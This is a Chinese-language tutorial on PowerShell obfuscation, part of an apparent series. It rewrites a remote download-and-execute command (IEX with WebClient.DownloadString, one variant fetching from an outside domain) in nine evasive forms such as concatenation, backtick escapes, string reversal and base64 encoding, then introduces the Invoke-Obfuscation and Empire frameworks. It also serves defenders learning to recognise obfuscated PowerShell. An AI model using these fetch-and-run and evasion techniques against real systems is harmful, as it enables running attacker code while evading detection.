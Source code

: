 # powershell(10)-混淆

> Powershell的混淆目前已经使用的越来越多，国内外也有了较多的研究，在今年的BH大会上也有对应的议题，关注点是反混淆，那么里面的一些姿势很值得我们学习，我们提供一些混淆实例，来让大家对于PS的混淆做到一个初步了解，也为防御混淆提供一些思路。

## 实例

在混淆之前，先看看powershell编码执行的方式。

`-EC,-EncodedCommand,-EncodedComman,-EncodedComma,-EncodedComm,......,Enc,-En,E`
那么这些参数都可以让代码编码执行，可见我们的混淆的选择是非常多的，而防御起来就越难。


我们在攻击时经常会远程下载代码脚本执行，这里基于这样的一条标准的下载文件命令来进行变形混淆。
`Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

简单处理我们刚才的命令：
`Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

1. 去掉System关键字
`Invoke-Expression (New-Object Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

2. 使用字符串连接+号连接
`Invoke-Expression (New-Object Net.WebClient).DownloadString("ht"+"tp://127.0.0.1/powershell")`

3. 使用Invoke方法
`Invoke-Expression (New-Object Net.WebClient).("DownloadString").Invoke('h'+'ttp://127.0.0.1/powershell')
$ds="Down"+"loadString";Invoke-Expression (New-Object Net.WebClient).$ds.Invoke('h'+'ttp://127.0.0.1/powershell')`

4. 变量替代
`IEX $test=New-Object Net.WebClient;$test.DownloadString('h'+'ttp://127.0.0.1/powershell')`

5. 关键字使用单双引号引起来
`Invoke-Expression (New-Object Net.WebClient)."DownloadString"('h'+'ttp://127.0.0.1/powershell')`

6. 转义符号
```Invoke-Expression (New-Object Net.WebClient)."D`o`wn`l`oad`Str`in`g"('h'+'ttp://7ell.me/power')
```
7. 字符串反转

	```powershell
$re= ")'1/1.0.0.721//:ptth'(gnirtSdaolnwoD.)tneilCbeW.teN tcejbO-weN(";
IEX ($re[-1..-($re.Length)] -Join '') | IEX
```
8. 编码执行

	```powershell
$command = "Write-Host ‘Hello World!’"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
$encodedCommand = [Convert]::ToBase64String($bytes) 
powershell.exe -EncodedCommand $encodedCommand
```
9. IEX
	
	我们使用的代码很多都使用Invoke-Expression/IEX命令，
Invoke-Expression/IEX命令是很常用的一个命令， 运行一个以字符串形式提供的PowerShell表达式。
这里也先看看代替IEX的各种执行方式

	1. `&(GAL I*X)` : 通过别名的方式来进行编码
	2. `Command I*e-E*` : 通过command的方式来进行编码
	3. `$ExecutionContext.InvokeCommand.GetCmdlets('I*e-E*')`使用环境变量等等
	4. ...

## 工具
> 那么讲了这么多，其实只是给大家讲了一下有这种编码方式，对于蓝队来说需要更深入的掌握，当让red team需要掌握的就更多了，下面给大家介绍几款混淆和编码框架供大家学习。

### Invoke-Obfuscation
下载地址：[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

这个工具呢已经有dalao在freebuf上写过相关是使用方法---[http://www.freebuf.com/sectool/136328.html](http://www.freebuf.com/sectool/136328.html)

简单介绍一下这个框架就是我们的powershell混淆框架，首先是启动

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```
启动之后是这样的：

![](./img/obfuscation/1.png)

之后输入你的代码，然后可以选择你需要的编码

![](./img/obfuscation/2.png)

我们来测试得到的结果：

![](./img/obfuscation/3.png)

还有更多的使用技巧可以查看工具的官方文档进行学习。
### Empire
Empire是一个类似于Metasploit的渗透工具，可以从他的宣传语: *Building an Empire with PowerShell* 看出Empire对于powershell的利用下了很大的功夫，集成了大量的攻击Payload可供选择，而且可以自己来选择编码，并且对不同的平台都能够支持，具体可以参看[官方文档](https://www.powershellempire.com/)，[Freebuf](http://www.freebuf.com/articles/web/76892.html)也有前人总结过一些用法。用法与MSF类似，这里就不过多介绍了。